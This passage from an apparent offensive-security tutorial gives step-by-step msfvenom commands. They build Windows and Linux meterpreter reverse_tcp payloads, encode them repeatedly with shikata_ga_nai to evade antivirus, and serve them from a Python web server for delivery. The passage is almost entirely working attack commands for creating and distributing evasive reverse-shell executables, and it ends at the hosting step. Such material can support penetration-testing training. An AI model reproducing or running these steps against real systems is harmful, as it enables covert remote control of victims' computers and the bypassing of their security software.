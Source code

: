 2. **Generate and encode a Windows x86 payload with Shikata:**

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=1234 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
    ```

    Navigate to the directory:

    ```bash
    cd Windows_Payloads/
    ```

3. **Increase iterations to improve AV evasion:**

    ```bash
    rm encodedx86.exe
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
    ```

    Verify the generated file:

    ```bash
    ls
    ```

### Encoding Linux Payload

1. **Generate and encode a Linux x86 payload:**

    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > ~/Desktop/Linux_Payloads/encodedx86
    ```

    Navigate to the root directory and list files:

    ```bash
    cd
    ls
    cd Linux_Payloads/
    ```

### Testing Out the Exploits

1. **Navigate to the Windows payloads directory:**

    ```bash
    cd Windows_Payloads/
    ```

2. **Host a simple web server to upload the exploit files:**

    ```bash
    sudo python -m SimpleHTTPServer 80
    ```
